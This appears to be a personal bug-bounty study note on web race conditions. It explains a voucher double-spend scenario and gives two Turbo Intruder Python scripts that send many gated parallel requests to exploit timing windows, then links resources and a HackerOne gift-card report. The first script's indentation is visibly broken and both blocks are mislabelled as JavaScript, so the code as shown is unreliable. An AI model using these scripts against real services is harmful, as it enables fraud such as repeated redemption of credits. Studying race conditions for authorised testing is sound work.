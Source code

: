 `7 January 2023`
## **Day 21 What I Have Learned**
***
## **Race Condition**
- Race conditions may occur when a process is critically or unexpectedly dependent on the sequence or timings of other events.
- It Happens When you are able to send Multiple Requests at the same time and receive a success response on both 
- e.g Bob has $10 and wants to deposit $10 with a Voucher,Bob Can Send Two request at the same time with the same Voucher,if they both become successful,Bob has Now $30 instead of $20.
***
## **Useful Burp Extension**
1. [Turbo Intruder](https://github.com/PortSwigger/turbo-intruder).
- Send request to turbo intruder.
- Use this python code as a payload of the turbo intruder.
``` js
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                        concurrentConnections=30,
                        requestsPerConnection=30,
                        pipeline=False
                        )

for i in range(30):
    engine.queue(target.req, i)
        engine.queue(target.req, target.baseInput, gate='race1')


    engine.start(timeout=5)
engine.openGate('race1')

    engine.complete(timeout=60)


def handleResponse(req, interesting):
    table.add(req)
```
- Now set the external HTTP header x-request: %s (This is needed by the turbo intruder)
- Click "Attack"
- See multiple 200 OK responses
2. Turbo Intruder 2 Requests Examples
- This following template can use when use have to send race condition of request2 immediately after send a request1 when the window may only be a few milliseconds.
``` js 
def queueRequests(target, wordlists): 
    engine = RequestEngine(endpoint=target.endpoint, 
                           concurrentConnections=30, 
                           requestsPerConnection=100, 
                           pipeline=False 
                           ) 
    request1 = '''
POST /target-URI-1 HTTP/1.1
Host: <REDACTED>
Cookie: session=<REDACTED>

parameterName=parameterValue
    ''' 

    request2 = '''
GET /target-URI-2 HTTP/1.1
Host: <REDACTED>
Cookie: session=<REDACTED>
    '''

    engine.queue(request1, gate='race1')
    for i in range(30): 
        engine.queue(request2, gate='race1') 
    engine.openGate('race1') 
    engine.complete(timeout=60) 
def handleResponse(req, interesting): 
    table.add(req)
```
3.You can Find More templates Installed By default in Turbo Intruder.
***
## **Resources**
- [Race Conditions and How to Prevent Them](https://www.youtube.com/watch?v=MqnpIwN7dz0).
- [Turbo Intruder: Embracing the billion-request attack](https://portswigger.net/research/turbo-intruder-embracing-the-billion-request-attack).
- [Race Condition Bug In Web App: A Use Case](https://medium.com/@ciph3r7r0ll/race-condition-bug-in-web-app-a-use-case-21fd4df71f0e).
- [Race Condition](https://book.hacktricks.xyz/pentesting-web/race-condition#oauth2-eternal-persistence).
- [RACE Condition vulnerability found in bug-bounty program](https://pravinponnusamy.medium.com/race-condition-vulnerability-found-in-bug-bounty-program-573260454c43).
- [Test Web Race Conditions](https://securingtomorrow.mcafee.com/technical-how-to/testing-race-conditions-web-applications/).
## **Reports**
- [Race Condition allows to redeem multiple times gift cards which leads to free "money"](https://hackerone.com/reports/759247) ($1,500).
***
## **The End**
